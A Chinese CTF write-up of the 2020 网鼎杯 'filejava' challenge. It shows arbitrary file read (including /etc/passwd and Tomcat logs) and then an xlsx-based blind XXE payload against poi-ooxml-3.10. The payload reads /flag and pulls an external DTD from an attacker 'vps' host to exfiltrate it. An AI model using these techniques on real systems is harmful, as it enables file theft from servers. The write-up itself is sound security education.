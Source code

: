 ```yaml
---
title: 网鼎杯2020 web
author: ch3n9w
typora-root-url: ../
date: 2020-05-11 16:11:31
categories:
  - CTF
cover:
  image: image-20211114142107501.png
---
```


## filejava

提供了文件上传和下载的功能, 在下载功能那里我们可以任意文件读取, 通过把文件名换成文件夹名字可以在报错中爆出绝对路径, 如图: 



![image-20200511193913736](/images/image-20200511193913736.png)

绝对路径

```
/usr/local/tomcat/webapps/ROOT/WEB-INF/upload/0/10/
```

读文件/etc/passwd

![image-20200511194357766](/images/image-20200511194357766.png)

读日志文件 ``logs/catalina.out``

​        ![img](/images/qBJnenyW6ts6Vglb.png__thumbnail)      

发现有一个war包,下载下来进行源码审计, 发现一处突兀的地方

```
        if (filename.startsWith("excel-") && "xlsx".equals(fileExtName))
          try {
            Workbook wb1 = WorkbookFactory.create(in);
            Sheet sheet = wb1.getSheetAt(0);
            System.out.println(sheet.getFirstRowNum());
          } catch (InvalidFormatException e) {
            System.err.println("poi-ooxml-3.10 has something wrong");
            e.printStackTrace();
          }  
```

这里会对exce开头而且后缀名为xlsx的文件进行一个解析, 考虑一下使用xlsx来进行blind xxe, 具体可以参考 https://www.jishuwen.com/d/2inW/zh-hk

新建一个xlsx文档, 解压, 修改``Content_Types.xml``的内容为

```xml
<?xml version="1.0"?>
<!DOCTYPE r [
<!ENTITY % data3 SYSTEM "file:///flag">
<!ENTITY % sp SYSTEM "http://vps/ext.dtd">
%sp;
%param3;
%exfil;
]>

```
